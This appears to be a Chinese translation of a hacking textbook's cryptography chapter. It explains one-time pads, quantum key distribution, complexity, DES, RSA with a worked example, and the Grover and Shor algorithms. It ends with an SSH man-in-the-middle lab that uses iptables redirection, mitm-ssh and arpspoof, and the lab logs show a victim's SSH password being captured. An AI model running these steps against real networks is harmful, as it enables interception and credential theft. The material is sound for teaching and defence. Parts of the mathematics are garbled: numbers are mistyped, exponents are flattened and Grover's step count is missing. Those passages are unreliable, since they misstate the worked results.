



# 第 0x700 章。密码学

*密码学*被定义为对密码学或密码分析的研究。*密码学*简单来说就是通过使用密码进行秘密通信的过程，而*密码分析*则是破解或解密这种秘密通信的过程。历史上，在战争期间，密码学特别受到关注，当时各国使用秘密代码与他们的部队进行通信，同时试图破解敌人的代码以渗透他们的通信。

战时的应用仍然存在，但随着越来越多的关键交易通过互联网进行，密码学在民用生活中的使用正变得越来越流行。网络嗅探如此普遍，以至于有人总是嗅探网络流量的偏执假设可能并不那么偏执。密码、信用卡号码和其他专有信息都可以通过未加密的协议进行嗅探和窃取。加密通信协议为这种隐私缺乏问题提供了解决方案，并允许互联网经济运行。如果没有安全套接字层（SSL）加密，在热门网站上的信用卡交易将会非常不便或不安全。

所有这些私有数据都由可能安全的密码学算法进行保护。目前，能够被证明是安全的密码系统对于实际应用来说过于复杂。因此，在没有数学安全证明的情况下，使用的是*实际安全*的密码系统。这意味着可能存在击败这些密码的捷径，但至今没有人能够实现它们。当然，也存在完全不安全的密码系统。这可能是由于实现方式、密钥大小，或者仅仅是密码本身在密码分析中的弱点。1997 年，根据美国法律，出口软件中加密的最大允许密钥大小为 40 位。这个密钥大小的限制使得相应的密码不安全，正如 RSA 数据安全和加州大学伯克利分校的研究生伊恩·戈德堡所展示的那样。RSA 发布了一个挑战，要求解密使用 40 位密钥加密的消息，三个半小时后，伊恩就完成了这个任务。这是强有力的证据表明 40 位密钥对于安全的密码系统来说不够大。

密码学以多种方式与黑客攻击相关。在最纯粹的水平上，解决谜题的挑战对好奇者来说具有吸引力。在更恶劣的水平上，被谜题保护的秘密数据可能更具吸引力。破解或绕过秘密数据的密码保护可以提供一种满足感，更不用说对受保护数据内容的了解。此外，强大的密码学有助于避免检测。设计用于嗅探网络流量以寻找攻击签名的昂贵网络入侵检测系统，如果攻击者使用加密通信通道，则毫无用处。通常，为了客户安全提供的加密 Web 访问被攻击者用作难以监控的攻击向量。

# 信息论

许多密码安全的概念源于克劳德·香农的头脑。他的思想对密码学领域产生了巨大影响，特别是*扩散*和*混淆*的概念。尽管无条件安全、一次性密码、量子密钥分发和计算安全这些概念并非香农实际提出的，但他在完美保密和信息理论方面的思想对安全定义产生了巨大影响。

## 无条件安全

如果一个密码系统即使拥有无限的计算资源也无法被破解，那么它被认为是无条件安全的。这意味着密码分析是不可能的，即使在穷举暴力攻击中尝试了所有可能的关键，也无法确定哪个是正确的一个。

## 一次性密码

一个无条件安全的密码系统的例子是*一次性密码*。一次性密码是一个非常简单的密码系统，它使用称为*填充块*的随机数据。填充块必须至少与要编码的明文消息一样长，填充块上的随机数据必须是真正随机的，从最字面的意义上讲。制作两个相同的填充块：一个给接收者，一个给发送者。要编码一条消息，发送者只需将明文消息的每个比特与填充块的相应比特进行异或运算。消息编码后，填充块被销毁以确保它只使用一次。然后，可以安全地将加密消息发送给接收者，无需担心密码分析，因为如果没有填充块，加密消息是无法被破解的。当接收者收到加密消息时，他也用他的填充块的相应比特对加密消息的每个比特进行异或运算，以产生原始的明文消息。

虽然一次性密码在理论上是无法被破解的，但在现实中，它并不真正实用。一次性密码的安全性依赖于密码的安全性。当密码被分发给接收者和发送者时，假定密码传输通道是安全的。为了真正安全，这可能涉及到面对面会议和交换，但为了方便，密码传输可能通过另一个密码来辅助完成。这种便利的代价是，整个系统现在只比最薄弱的环节强，而这将是用来传输密码的密码。由于密码由与明文消息长度相同的随机数据组成，并且整个系统的安全性仅与密码传输的安全性相当，因此通常更有意义的是只发送使用与传输密码相同的密码编码的明文消息。

## 量子密钥分发

量子计算的兴起为密码学领域带来了许多有趣的事物。其中之一是利用量子密钥分发实现的一次性密码的实用化。量子纠缠的神秘性可以提供一种可靠且保密的方法来发送随机位串，这些位串可以用作密钥。这是通过在光子中使用非正交量子态来实现的。

不深入细节的话，光子的偏振是其电场的振荡方向，在这种情况下可以是水平、垂直或两条对角线之一。*非正交*简单来说就是状态之间相隔的角度不是 90 度。令人好奇的是，无法确定一个光子具有这四种偏振中的哪一种。水平和垂直偏振的直角基与两条对角线偏振的对角基不相容，因此，由于海森堡不确定性原理，这两组偏振不能同时被测量。可以使用滤波器来测量偏振——一个用于直角基，一个用于对角基。当一个光子通过正确的滤波器时，其偏振不会改变，但如果它通过错误的滤波器，其偏振将被随机修改。这意味着任何试图测量光子偏振的窃听尝试都有很大机会打乱数据，使得通道不安全的迹象变得明显。

这些量子力学的奇异方面被查尔斯·贝内特和吉勒·布拉萨德在第一个也可能是最著名的量子密钥分发方案中得到了很好的应用，该方案称为*BB84*。首先，发送者和接收者就四个偏振的比特表示达成一致，使得每个基础都有 1 和 0。在这个方案中，1 可以由垂直光子偏振和其中一个对角偏振（正 45 度）表示，而 0 可以由水平偏振和另一个对角偏振（负 45 度）表示。这样，当测量直角偏振时和当测量对角偏振时，1 和 0 都可以存在。

然后，发送者发送一串随机光子，每个光子来自随机选择的基础（要么是直角要么是对角），这些光子被记录下来。当接收者接收到一个光子时，他也会随机选择在直角基础或对角基础中测量它，并记录结果。现在，双方公开比较他们为每个光子使用的哪个基础，并且只保留他们使用相同基础测量的光子的数据。这不会揭示光子的比特值，因为每个基础中都有 1 和 0。这构成了一次性密码的密钥。

由于窃听者最终可能会改变一些光子的偏振状态，从而混淆数据，因此可以通过计算密钥中某些随机子集的错误率来检测窃听。如果错误太多，那么可能有人正在窃听，密钥应该被丢弃。如果没有，那么密钥数据的传输是安全且私密的。

## 计算安全性

如果破解该密码系统的最佳已知算法需要不合理数量的计算资源和时间，则认为密码系统是*计算安全的*。这意味着理论上窃听者可以破解加密，但实际上这样做是不切实际的，因为所需的时间和资源将远远超过加密信息的价值。通常，破解计算安全密码系统所需的时间以数万年来衡量，即使假设有大量的计算资源也是如此。大多数现代密码系统都属于这一类。

重要的是要注意，破解密码系统的最佳已知算法总是在不断发展和改进。理想情况下，如果破解它的*最佳*算法需要不合理数量的计算资源和时间，则可以将密码系统定义为计算安全的，但目前尚无方法证明给定的加密破解算法是并且始终是最佳算法。因此，使用*当前*的最佳已知算法来衡量密码系统的安全性。

# 算法运行时间

*算法运行时间*与程序的运行时间略有不同。由于算法只是一个想法，评估算法的处理速度没有限制。这意味着用分钟或秒来表示算法运行时间是没有意义的。

在没有处理器速度和架构等因素的情况下，算法的重要未知因素是*输入大小*。在 1,000 个元素上运行的排序算法肯定比在 10 个元素上运行的相同排序算法花费更长的时间。输入大小通常用*n*表示，每个原子步骤都可以用一个数字来表示。一个简单算法（如以下所示）的运行时间可以用*n*来表示。

```
for(i = 1 to n) {
   Do something;
   Do another thing;
} 
Do one last thing;
```

这个算法循环*n*次，每次执行两个操作，然后执行最后一个操作，因此这个算法的*时间复杂度*将是 2*n* + 1。一个更复杂的算法，如以下所示，附加了一个嵌套循环，其时间复杂度将是*n*² + 2*n* + 1，因为新的操作执行*n*²次。

```
for(x = 1 to n) {
   for(y = 1 to n) {
      Do the new action;
   }
}
for(i = 1 to n) {
   Do something;
   Do another thing;
} 
Do one last thing;
```

但这种时间复杂度的详细程度仍然过于细化。例如，当*n*变大时，2*n* + 5 和 2*n* + 365 之间的相对差异变得越来越小。然而，当*n*变大时，2*n*² + 5 和 2*n* + 5 之间的相对差异变得越来越大。这种类型的泛化趋势对于算法的运行时间来说是最重要的。

考虑两个算法，一个的时间复杂度为 2*n* + 365，另一个为 2*n*² + 5。对于小的*n*值，2*n*² + 5 算法将优于 2*n* + 365 算法。但当*n* = 30 时，两个算法的表现相同，对于所有大于 30 的*n*，2*n* + 365 算法将优于 2*n*² + 5 算法。由于只有 30 个*n*值中 2*n*² + 5 算法表现更好，而 2*n* + 365 算法在无限多个*n*值中表现更好，因此 2*n* + 365 算法通常更有效率。

这意味着，一般来说，算法的时间复杂度相对于输入大小的增长率比任何固定输入的时间复杂度更重要。虽然这并不总是适用于特定的实际应用，但这种对算法效率的测量通常在所有可能的平均应用中是正确的。

## 渐近符号

*渐近符号*是表达算法效率的一种方法。它被称为渐近符号，因为它处理算法在输入大小接近渐近极限无穷大时的行为。

回到 2*n* + 365 算法和 2*n*² + 5 算法的例子，我们确定 2*n* + 365 算法通常更有效，因为它遵循*n*的趋势，而 2*n*² + 5 算法遵循*n*²的一般趋势。这意味着对于所有足够大的*n*，2*n* + 365 被一个正的*n*倍数所限制，而 2*n*² + 5 被一个正的*n*²倍数所限制。

这听起来可能有些令人困惑，但它真正意味着的是存在一个趋势值的正常数和一个*n*的下限，使得趋势值乘以这个常数将始终大于所有大于下限的*n*的时间复杂度。换句话说，2*n*² + 5 是*n*²阶的，而 2*n* + 365 是*n*阶的。有一个方便的数学符号来表示这一点，称为**大 O 符号**，用来描述一个算法是*n*²阶的，看起来像 O(*n*²)。

将算法的时间复杂度转换为大 O 符号的一个简单方法就是简单地查看高阶项，因为这些项将在*n*足够大时最为重要。所以一个时间复杂度为 3*n*⁴ + 43*n*³ + 763*n* + log *n* + 37 的算法将是大 O(*n*⁴)阶的，而 54*n*⁷ + 23*n*⁴ + 4325 将是 O(*n*⁷)阶的。

# 对称加密

**对称**密码是使用相同密钥加密和解密消息的密码系统。与不对称加密相比，加密和解密过程通常更快，但密钥分发可能很困难。

这些密码通常要么是分组密码，要么是流密码。一个**分组密码**在固定大小的块上操作，通常是 64 位或 128 位。相同的明文块将始终使用相同的密钥加密成相同的密文块。DES、Blowfish 和 AES（Rijndael）都是分组密码。**流密码**生成一个伪随机的比特流，通常每次一个比特或一个字节。这被称为**密钥流**，它与明文进行异或运算。这对于加密连续的数据流非常有用。RC4 和 LSFR 是流行的流密码示例。RC4 将在“无线 802.11b 加密”中深入讨论，请参阅无线 802.11b 加密。

DES 和 AES 都是流行的分组密码。在构建分组密码时，投入了大量的思考，以使其能够抵御已知的密码分析攻击。在分组密码中反复使用的两个概念是混淆和扩散。*混淆*指的是用于隐藏明文、密文和密钥之间关系的各种方法。这意味着输出位必须涉及一些复杂的密钥和明文的转换。*扩散*旨在尽可能地将明文位和密钥位的影响扩散到密文的大部分。*产品密码*通过重复使用各种简单操作来结合这两个概念。DES 和 AES 都是产品密码。

DES 也使用 Feistel 网络。它在许多分组密码中用于确保算法是可逆的。基本上，每个块被分为两个部分，左边（*L*）和右边（*R*）。然后，在一个操作轮次中，新的左边（*L[i]*）被设置为等于旧的右边（*R[i-1]*），而新的右边（*R[i]*）由旧的左边（*L[i-1]*）与使用旧的右边（*R[i-1]*）和该轮次的子密钥（*K[i]*）的函数输出的异或（⊕）运算组成。通常，每个操作轮次都有一个单独的子密钥，该子密钥在之前计算。

*L[i]* 和 *R[i]* 的值如下（⊕符号表示异或运算）：

| *L[i] = R[i-1]* |
| --- |
| *R[i] = L[i-1] ⊕ f(R[i-1], K[i])* |

DES 使用 16 轮操作。这个数字是专门选择的，以防御差分密码分析。DES 的唯一真正已知的弱点是其密钥大小。由于密钥只有 56 位，整个密钥空间可以在几周内通过专用硬件上的穷举暴力攻击来检查。

Triple-DES 通过使用两个连接在一起的 DES 密钥来解决这个问题，总密钥大小为 112 位。加密是通过使用第一个密钥加密明文块，然后使用第二个密钥解密，最后再次使用第一个密钥加密来完成的。解密过程类似，但加密和解密操作被切换。增加的密钥大小使得暴力破解尝试指数级地更困难。

大多数行业标准分组密码对所有已知的密码分析形式都具有抵抗力，并且密钥大小通常太大，无法尝试穷举暴力攻击。然而，量子计算提供了一些有趣的可能，但这些通常被过度炒作。

## Lov Grover 的量子搜索算法

量子计算承诺了巨大的并行性。量子计算机可以在叠加态（可以想象成数组）中存储许多不同的状态，并对它们同时进行计算。这对于穷举任何东西，包括块加密，都是理想的。可以将所有可能的关键字加载到叠加态中，然后同时对所有关键字执行加密操作。棘手的部分是正确地从叠加态中获取值。量子计算机很奇怪，当叠加态被观察时，整个系统会分解成单个状态。不幸的是，这种分解最初是随机的，叠加态中每个状态的分解概率是相等的。

如果没有某种方法来操纵叠加态的概率，只需猜测密钥就能达到相同的效果。幸运的是，一个名叫 Lov Grover 的人提出了一种算法，可以操纵叠加态的概率。这个算法允许在增加某些期望状态的概率的同时减少其他状态的概率。这个过程重复几次，直到将叠加态分解成期望状态几乎可以保证。这需要大约  步。

使用一些基本的指数数学技能，你会注意到这实际上将穷举暴力攻击的密钥大小减半。因此，对于极度偏执的人来说，将块加密的密钥大小加倍将使其对量子计算机进行穷举暴力攻击的理论可能性具有抵抗力。

# 非对称加密

非对称加密使用两个密钥：一个公钥和一个私钥。*公钥*是公开的，而*私钥*是保密的；因此得名。任何用公钥加密的消息只能用私钥解密。这解决了密钥分发的问题——公钥是公开的，通过使用公钥，可以为相应的私钥加密消息。与对称加密不同，不需要额外的通信渠道来传输密钥。然而，非对称加密通常比对称加密慢得多。

## RSA

RSA 是更受欢迎的非对称算法之一。RSA 的安全性基于分解大数的难度。首先，选择两个质数*P*和*Q*，然后计算它们的乘积*N*：

| *N = P · Q* |
| --- |

然后，需要计算介于 1 和*N* - 1 之间的相对质数数量（如果两个数的最大公约数是 1，则称这两个数是*相对质数*）。这被称为欧拉函数，通常用小写希腊字母φ（φ）表示。

例如，φ(9) = 6，因为 1、2、4、5、7 和 8 与 9 互质。应该很容易注意到，如果 *N* 是一个质数，那么 φ(*N*) 将是 *N* –1。一个不那么明显的事实是，如果 *N* 是两个质数 *P* 和 *Q* 的乘积，那么 φ(*P · Q*) = (P –1) · (Q* –1)。这对于计算 RSA 中的 φ(*N*) 非常有用。

必须随机选择一个与 φ(*N*) 互质的加密密钥 *E*。然后必须找到一个满足以下方程的解密密钥，其中 *S* 是任何整数：

| *E · D = S · φ(N*) + 1 |
| --- |

这可以通过扩展欧几里得算法来解决。欧几里得算法是一个非常古老的算法，它碰巧是一种计算两个数最大公约数（GCD）的非常快速的方法。较大的数被除以较小的数，只注意余数。然后，较小的数被除以余数，这个过程重复进行，直到余数为零。在余数达到零之前的最后一个余数是两个原始数的最大公约数。这个算法非常快，运行时间为 O(log[10]*N*)。这意味着找到答案所需的步骤数大约与较大数的位数相同。

在下面的表格中，7253 和 120 的最大公约数（写作 gcd(7253, 120)）将被计算。表格首先将两个数放在 A 和 B 列中，较大的数放在 A 列。然后 A 被除以 B，余数放在 R 列。在下一行，旧的 B 成为新的 A，旧的 R 成为新的 B。再次计算 R，这个过程重复进行，直到余数为零。在余数为零之前的最后一个 R 值就是最大公约数。

| gcd(7253, 120) |  |
| --- | --- | --- |
| A | B | R |
| --- | --- | --- |
| 7253 | 120 | 53 |
| 120 | 53 | 14 |
| 53 | 14 | 11 |
| 14 | 11 | 3 |
| 11 | 3 | 2 |
| 3 | 2 | 1 |
| 2 | 1 | 0 |

因此，7243 和 120 的最大公约数是 1。这意味着 7250 和 120 互质。

扩展欧几里得算法用于找到两个整数 *J* 和 *K*，使得

| *J · A + K · B = R* |
| --- |

当 gcd(*A, B) = R*.

这是通过反向工作欧几里得算法来完成的。在这种情况下，尽管如此，商很重要。以下是先前示例中的数学，包括商：

| 7253 = 60 · 120 + **53** |
| --- |
| 120 = 2 · 53 + **14** |
| 53 = 3 · 14 + **11** |
| 14 = 1 · 11 + **3** |
| 11 = 3 · 3 + **2** |
| 3 = 1 · 2 + **1** |

通过一点基本的代数，可以将每一行的项移动，使得余数（以粗体显示）单独位于等号左边：

| **53** = 7253 – 60 · 120 |
| --- |
| **14** = 120 – 2 · 53 |
| **11** = 53 – 3 · 14 |
| **3** = 14 – 1 · 11 |
| **2** = 11 – 3 · 3 |
| **1** = 3 – 1 · **2** |

从底部开始，很明显：

| 1 = 3 – 1 · **2** |
| --- |

然而，上面的那一行是 2 = 11 –3 · 3，这给出了 2 的一个替换：

| 1 = 3 – 1 · (11 – 3 · 3) |
| --- |
| 1 = 4 · **3** – 1 · 11 |

显示 3 = 14 – 1 · 11 的那一行，也可以用来替换 3：

| 1 = 4 · (14 – 1 · 11) – 1 · 11 |
| --- |
| 1 = 4 · 14 – 5 · **11** |

当然，上面那一行显示 11 = 53 – 3 · 14，这也可以替换 11：

| 1 = 4 · 14 – 5 · (53 – 3 · 14) |
| --- |
| 1 = 19 · **14** – 5 · 53 |

按照这个模式，我们使用显示 14 = 120 – 2 · 53 的那一行，进行另一个替换：

| 1 = 19 · (120 – 2 · 53) – 5 · 53 |
| --- |
| 1 = 19 · 120 – 43 · **53** |

最后，最上面的一行显示 53 = 7253 – 60 · 120，进行最后的替换：

| 1 = 19 · 120 – 43 · (7253 – 60 · 120) |
| --- |
| 1 = 2599 · 120 – 43 · 7253 |
| 2599 · 120 + – 43 · 7253 = 1 |

这表明 *J* 和 *K* 分别是 2599 和 –43。

在前面的例子中选择的数字是为了与 RSA 相关。假设 *P* 和 *Q* 的值是 11 和 13，*N* 将是 143。因此，φ(*N*) = 120 = (11 – 1) · (13 – 1)。由于 7253 与 120 互质，这个数字是 *E* 的一个很好的值。

如果你记得，目标是找到一个满足以下方程的 *D* 的值：

| *E · D = S · φ(N) + 1* |
| --- |

一些基本的代数运算使其以更熟悉的形式呈现：

| *D · E + S · φ(N*) = 1 |
| --- |
| *D · 7253 ± S* · 120 = 1 |

使用扩展欧几里得算法的值，显然 *D* = –43。*S* 的值并不重要，这意味着这个数学是在模 φ(*N*)，即模 120 下进行的。这反过来意味着 *D* 的正等价值是 77，因为 120 – 43 = 77。这可以放入上面的方程中：

| *E · D = S · φ(N*) + 1 |
| --- |
| 7253 · 77 = 4654 · 120 + 1 |

*N* 和 *E* 的值作为公钥分发，而 *D* 作为私钥保密。*P* 和 *Q* 被丢弃。加密和解密函数相当简单。

| 加密：*C* = *M^E*(mod*N*) |
| --- |
| 解密：*M* = *C^D*(mod*N*) |

例如，如果信息 *M* 是 98，加密过程如下：

| 98⁷²⁵³ = 76(mod143) |
| --- |

密文将是 76。然后，只有知道 *D* 的值的人才能解密信息，并从数字 76 中恢复出数字 98，如下所示：

| 76⁷⁷ = 98(mod143) |
| --- |

显然，如果信息 *M* 大于 *N*，则必须将其分解成小于 *N* 的块。

这个过程是由欧拉函数定理实现的。它指出，如果 *M* 和 *N* 互质，且 *M* 是较小的数，那么当 *M* 自乘 φ(*N*) 次并除以 *N* 时，余数总是 1：

| 如果 gcd(*M, N*) = 1 且 *M* < *N*，则 *M^(φ(N))* = 1(mod*N*) |
| --- |

由于所有这些都是在模 *N* 下完成的，因此以下也是正确的，这是由于乘法在模算术中的工作方式：

| *M^(φ(N)) · M^(φ(N))* = 1 ·1(mod*N*) |
| --- |
| *M*^(2 · φ(*N*)) = 1(mod*N*) |

这个过程可以重复进行 *S* 次，以产生以下结果：

| *M^(S · φ(N))* = 1(mod*N*) |
| --- |

如果两边都乘以 M，结果是：

| M^(S · φ(N) · M) = 1 ·*M*(mod*N*) |
| --- |
| M^(S · φ(N) + 1) = *M*(mod*N*) |

这个等式基本上是 RSA 的核心。一个数 M，在模 N 的幂次下，再次产生原始数 M。这基本上是一个返回其自身输入的函数，本身并不那么有趣。但如果这个等式可以被分成两个独立的部分，那么一部分可以用来加密，另一部分用来解密，再次产生原始信息。这可以通过找到两个数 E 和 D，它们相乘等于 S 乘以φ(N)加 1 来实现。然后这个值可以代入到前面的等式中：

| E · D = S ·φ(N) + 1 |
| --- |
| M^(E · D) = *M*(mod*N*) |

这相当于：

| M^(E^D) = (M*mod*N*) |
| --- |

这可以分解为两个步骤：

| ME = C(mod*N*) |
| --- |
| CD = M(mod*N*) |

这基本上就是 RSA。算法的安全性取决于保持 D 的秘密。但由于 N 和 E 都是公开值，如果 N 可以被分解成原始的 P 和 Q，那么φ(N)可以很容易地通过(P –1) · (Q –1)计算出来，然后使用扩展欧几里得算法确定 D。因此，RSA 的密钥大小必须考虑到已知的最佳分解算法，以保持计算安全。目前，已知的大数分解算法是数域筛法（NFS）。这个算法有亚指数运行时间，相当不错，但仍然不够快，无法在合理的时间内破解 2048 位的 RSA 密钥。

## 彼得·肖尔的量子分解算法

再次强调，量子计算在计算潜力上提供了惊人的增加。彼得·肖尔能够利用量子计算机的巨大并行性，通过使用古老的数论技巧高效地分解数字。

该算法实际上相当简单。取一个数 N 进行分解。选择一个小于 N 的值 A。这个值还应该与 N 互质，但假设 N 是两个质数的乘积（在尝试分解数字以破解 RSA 时，这始终是情况），如果 A 与 N 不互质，那么 A 是 N 的因子之一。

接下来，用连续的数字填充叠加，从 1 开始计数，并将这些值中的每一个通过函数 f(x) = A^x(mod*N*)传递。这一切都是通过量子计算的魔力同时完成的。结果中会出现重复的模式，并且必须找到这个重复的周期。幸运的是，这可以在量子计算机上快速完成，使用傅里叶变换。这个周期将被称为 R。

然后，简单地计算 gcd(A^(R/2) + 1, N)和 gcd(A^(R/2) –1, N)。至少这些值中的一个应该是 N 的因子。这是可能的，因为 A^R = 1(mod*N*)，下面将进一步解释。

| A^R = 1(mod*N*) |
| --- |
| (*A^(R/2)*)² = 1(mod*N*) |
| (*A^(R/2)*)² –1 = 0(mod*N*) |
| (*A^(R/2)* –1) · (*A^(R/2)* + 1) = 0(mod*N*) |

这意味着 (*A^(R/2)* –1) · (*A^(R/2)* + 1) 是 *N* 的整数倍。只要这些值不会归零，其中之一将与 *N* 有一个共同的因子。

要破解之前的 RSA 示例，必须分解公钥值 *N*。在这种情况下，*N* 等于 143。接下来，选择一个与 *N* 互质且小于 *N* 的 *A* 值，因此 *A* 等于 21。函数看起来像 *f*(*x*) = 21*^x*(mod143)。从 1 开始，直到量子计算机允许的最高值，每个连续的值都将通过这个函数。

为了简洁起见，假设量子计算机有三个量子位，因此叠加可以保持八个值。

| *x* = 1 | 211(mod143) = 21 |
| --- | --- |
| *x* = 2 | 212(mod143) = 12 |
| *x* = 3 | 213(mod143) = 109 |
| *x* = 4 | 214(mod143) = 1 |
| *x* = 5 | 215(mod143) = 21 |
| *x* = 6 | 216(mod143) = 12 |
| *x* = 7 | 217(mod143) = 109 |
| *x* = 8 | 218(mod143) = 1 |

在这里，周期很容易通过肉眼确定：*R* 是 4。有了这些信息，gcd(21² –1143) 和 gcd(21² + 1143) 应该会产生至少一个因子。这次，两个因子实际上都出现了，因为 gcd(440, 143) = 11 和 gcd(442, 142) = 13。然后可以使用这些因子重新计算之前 RSA 示例的私钥。

# 混合加密

一种 *混合* 密码系统结合了两种加密算法的优点。使用非对称加密算法交换一个随机生成的密钥，该密钥用于使用对称加密算法加密剩余的通信。这提供了对称加密算法的速度和效率，同时解决了安全密钥交换的难题。混合加密算法被大多数现代加密应用使用，如 SSL、SSH 和 PGP。

由于大多数应用都使用对密码分析具有抵抗力的加密算法，因此攻击加密算法通常不会奏效。然而，如果攻击者能够拦截双方之间的通信并伪装成其中一方或另一方，则可以攻击密钥交换算法。

## 中间人攻击

一种 *中间人攻击 (MitM)* 是一种绕过加密的巧妙方法。攻击者坐在两个通信方之间，每个通信方都相信他们正在与另一方通信，但实际上双方都在与攻击者通信。

当建立两个当事人之间的加密连接时，将生成一个密钥并使用非对称加密算法进行传输。通常，这个密钥用于加密两个当事人之间的进一步通信。由于密钥是安全传输的，并且后续流量由密钥加密，因此所有这些流量对于任何试图嗅探这些数据包的潜在攻击者来说都是不可读的。

然而，在中间人攻击中，甲方认为她正在与乙方通信，乙方也认为他正在与甲方通信，但实际上，双方都在与攻击者通信。因此，当甲方与乙方协商加密连接时，甲方实际上是在与攻击者建立加密连接，这意味着攻击者使用非对称加密安全地通信并学习密钥。然后攻击者只需再与乙方建立另一个加密连接，乙方就会相信他正在与甲方通信，如下面的插图所示。



图 0x700-1.

这意味着攻击者实际上维护了两个独立的加密通信通道，使用两个不同的加密密钥。来自 A 的数据包使用第一个密钥加密并发送到攻击者，A 认为这是 B。攻击者随后使用第一个密钥解密这些数据包，并使用第二个密钥重新加密它们。然后攻击者将新加密的数据包发送给 B，B 认为这些数据包实际上是 A 发送的。通过坐在中间并维护两个不同的密钥，攻击者能够窃听甚至修改 A 和 B 之间的流量，而双方都不会察觉。

在使用 ARP 缓存中毒工具重定向流量后，可以使用许多 SSH 中间人攻击工具。其中大部分只是对现有 openssh 源代码的修改。一个值得注意的例子是由 Claes Nyberg 编写的名为 mitm-ssh 的软件包，它已经被包含在 LiveCD 中。

所有这些都可以通过“Active Sniffing”中的 ARP 重定向技术以及一个名为 mitmssh 的修改过的 openssh 软件包来完成。还有其他一些工具也能做到这一点；然而，Claes Nyberg 的 mitm-ssh 是公开可用的，并且是最健壮的。源代码包位于 LiveCD 的/usr/src/mitm-ssh 目录中，它已经被构建并安装。运行时，它接受指定端口的连接，然后将这些连接代理到目标 SSH 服务器的真实目标 IP 地址。借助 arpspoof 毒化 ARP 缓存，可以将目标 SSH 服务器的流量重定向到运行 mitm-ssh 的攻击者机器。由于该程序监听 localhost，因此需要一些 IP 过滤规则来重定向流量。

在下面的例子中，目标 SSH 服务器位于 192.168.42.72。当运行 mitm-ssh 时，它将在端口 2222 上监听，因此不需要以 root 身份运行。iptables 命令告诉 Linux 将端口 22 上的所有传入 TCP 连接重定向到 localhost 2222，在那里 mitm-ssh 将监听。

```
reader@hacking:~ $ sudo iptables -t nat -A PREROUTING -p tcp --dport 22 -j REDIRECT
 --to-ports 2222
reader@hacking:~ $ sudo iptables -t nat -L
Chain PREROUTING (policy ACCEPT)
target     prot opt source               destination         
REDIRECT   tcp  --  anywhere             anywhere            tcp dpt:ssh redir ports 2222

Chain POSTROUTING (policy ACCEPT)
target     prot opt source               destination         

Chain OUTPUT (policy ACCEPT)
target     prot opt source               destination         
reader@hacking:~ $ mitm-ssh

 ..  
/|\    SSH Man In The Middle [Based on OpenSSH_3.9p1]
_|_    By CMN <cmn@darklab.org>

Usage: mitm-ssh <non-nat-route> [option(s)]

Routes:

  <host>[:<port>]  - Static route to port on host
                    (for non NAT connections)
Options:
  -v             - Verbose output
  -n             - Do not attempt to resolve hostnames
  -d             - Debug, repeat to increase verbosity
  -p port        - Port to listen for connections on
  -f configfile  - Configuration file to read

Log Options:
  -c logdir      - Log data from client in directory
  -s logdir      - Log data from server in directory
  -o file        - Log passwords to file

reader@hacking:~ $ mitm-ssh 192.168.42.72 -v -n -p 2222
Using static route to 192.168.42.72:22
SSH MITM Server listening on 0.0.0.0 port 2222.
Generating 768 bit RSA key.
RSA key generation complete.
```

然后在同一台机器上的另一个终端窗口中，使用 Dug Song 的 arpspoof 工具来毒化 ARP 缓存，并将目标为 192.168.42.72 的流量重定向到我们的机器上，而不是直接到目标机器。

```
reader@hacking:~ $ arpspoof
Version: 2.3
Usage: arpspoof [-i interface] [-t target] host
reader@hacking:~ $ sudo arpspoof -i eth0 192.168.42.72
0:12:3f:7:39:9c ff:ff:ff:ff:ff:ff 0806 42: arp reply 192.168.42.72 is-at 0:12:3f:7:39:9c
0:12:3f:7:39:9c ff:ff:ff:ff:ff:ff 0806 42: arp reply 192.168.42.72 is-at 0:12:3f:7:39:9c 
0:12:3f:7:39:9c ff:ff:ff:ff:ff:ff 0806 42: arp reply 192.168.42.72 is-at 0:12:3f:7:39:9c
```

现在中间人攻击已经设置好，准备迎接下一个毫无防备的受害者。下面的输出来自网络上的另一台机器（192.168.42.250），该机器尝试连接到 192.168.42.72。

### 在机器 192.168.42.250 (tetsuo) 上，连接到 192.168.42.72 (loki)

```
iz@tetsuo:~ $ ssh jose@192.168.42.72
The authenticity of host '192.168.42.72 (192.168.42.72)' can't be established.
RSA key fingerprint is 84:7a:71:58:0f:b5:5e:1b:17:d7:b5:9c:81:5a:56:7c.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.42.72' (RSA) to the list of known hosts.
jose@192.168.42.72's password: 
Last login: Mon Oct  1 06:32:37 2007 from 192.168.42.72
Linux loki 2.6.20-16-generic #2 SMP Thu Jun 7 20:19:32 UTC 2007 i686

jose@loki:~ $ ls -a
.  ..  .bash_logout  .bash_profile  .bashrc  .bashrc.swp  .profile  Examples
jose@loki:~ $ id
uid=1001(jose) gid=1001(jose) groups=1001(jose)
jose@loki:~ $ exit
logout

Connection to 192.168.42.72 closed. 

iz@tetsuo:~ $
```

一切看起来都很正常，连接似乎很安全。然而，连接实际上是秘密地通过攻击者的机器路由的，该机器使用一个单独的加密连接返回目标服务器。在攻击者的机器上，关于连接的所有信息都已记录。

### 在攻击者的机器上

```
reader@hacking:~ $ sudo mitm-ssh 192.168.42.72 -v -n -p 2222
Using static route to 192.168.42.72:22
SSH MITM Server listening on 0.0.0.0 port 2222.
Generating 768 bit RSA key.
RSA key generation complete.
WARNING: /usr/local/etc/moduli does not exist, using fixed modulus
[MITM] Found real target 192.168.42.72:22 for NAT host 192.168.42.250:1929
[MITM] Routing SSH2 192.168.42.250:1929 -> 192.168.42.72:22

[2007-10-01 13:33:42] MITM (SSH2) 192.168.42.250:1929 -> 192.168.42.72:22
SSH2_MSG_USERAUTH_REQUEST: jose ssh-connection password 0 sP#byp%srt

[MITM] Connection from UNKNOWN:1929 closed
reader@hacking:~ $ ls /usr/local/var/log/mitm-ssh/
passwd.log
ssh2 192.168.42.250:1929 <- 192.168.42.72:22
ssh2 192.168.42.250:1929 -> 192.168.42.72:22
reader@hacking:~ $ cat /usr/local/var/log/mitm-ssh/passwd.log 
[2007-10-01 13:33:42] MITM (SSH2) 192.168.42.250:1929 -> 192.168.42.72:22
SSH2_MSG_USERAUTH_REQUEST: jose ssh-connection password 0 sP#byp%srt

reader@hacking:~ $ cat /usr/local/var/log/mitm-ssh/ssh2*
Last login: Mon Oct  1 06:32:37 2007 from 192.168.42.72
Linux loki 2.6.20-16-generic #2 SMP Thu Jun 7 20:19:32 UTC 2007 i686
jose@loki:~ $ ls -a
